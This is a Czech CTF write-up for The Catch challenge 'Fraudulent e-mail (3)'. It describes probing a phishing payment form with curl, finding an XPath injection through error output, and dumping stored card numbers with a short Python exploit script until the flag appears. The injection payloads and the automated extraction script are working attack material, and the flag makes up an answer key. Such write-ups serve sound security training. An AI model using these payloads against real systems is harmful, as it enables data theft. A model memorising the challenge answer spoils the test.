

# Fraudulent e-mail (3)

## Zadání

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our customers have come across this scam.

Identify all card numbers entered into the fraudulent webpage (we have to report incident and its details to CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

## Nápovědy (Hints)

1\. Fraudsters never have time for anything, they usually slack off even validating inputs.

## Řešení

V přiloženém emailu je zdánlivě odkaz na adresu <http://messenger-portal.mysterious-delivery.thecatch.cz>, ale ve skutečnosti vede proklik na <http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8>.

Po vyplnění vymyšleného čísla karty a kliku na `Proceed to Play` se zdánlivě nic nestane:



Ve vývojové konzoli prohlížeče je vidět, že se data odeslala metodou `POST` na adresu `http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8` s daty:

`card-holder-name=1111&card-number=1111-1111-1111-1111&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay=`.

Podle nápovědy by měl útok směřovat na neošetřený vstup (jméno, číslo karty, expirace, cvv, částka).

Protože součástí webové stránky je i validace zadání, budeme pokračovat dále z příkazové řádky. Po zkrácení čísla karty na `1`

`curl "http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8" -d "card-holder-name=1111&card-number=`**`1`**`&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay="`

se v odpovědi objeví

```html
<p>This card <strong>1</strong> is broken.</p>
```

Modifikace ostatních parametrů nemá na odpověď vliv, takže další útok bude směřovat přes parametr `card-number`. Pokud místo čísla karty `1` vyplníme `1 or 1=1`.

`curl "http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8" -d "card-holder-name=1111&card-number=`**`1 or 1=1`**`&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay="`

Objeví se v odpovědi číslo karty, kterou už někdo jiný zadal.

```html
<p>This card <strong>4556-1329-8889-9614</strong> is broken.</p>
```

Pokud místo čísla karty `1` vyplníme `'('`.

`curl "http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8" -d "card-holder-name=1111&card-number=`**`'(`**`&card-expires-date=01%2F2022&card-cvv=111&proceed-to-pay="`

Objeví se v odpovědi chybový výpis.

```html
<b>Warning</b>:  SimpleXMLElement::xpath(): Unfinished literal in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Z toho je zřejmé, že jsou parametry zpracovány pomocí XPath (viz <https://dev.to/zeyu2001/blind-xpath-injections-the-path-less-travelled-ope>).

Pro získání celého seznamu karet použijeme XPath funkci `position()=...`

Celý proces zautomatizujeme programem [Exploit.py](Exploit.py) a v čísle karty budeme hledat `FLAG{`.

```python
import requests

url = 'http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8'
for i in range(0, 150):
    print(i)
    headers = {'Content-type': 'application/x-www-form-urlencoded'}
    resp = requests.post(url, headers=headers, data='card-holder-name=asdfasdf+qwer&card-expires-date=01%2F2020&card-cvv=111&proceed-to-pay=&card-number=0 or position()='+str(i))
    for line in resp.text.split("\n"):
        if 'FLAG{' in line:
            print(line)
            quit()
```

128\. číslo karty obsahuje hledaný flag

## Flag

`FLAG{0BF0-RREd-vAK3-1Ayi}`
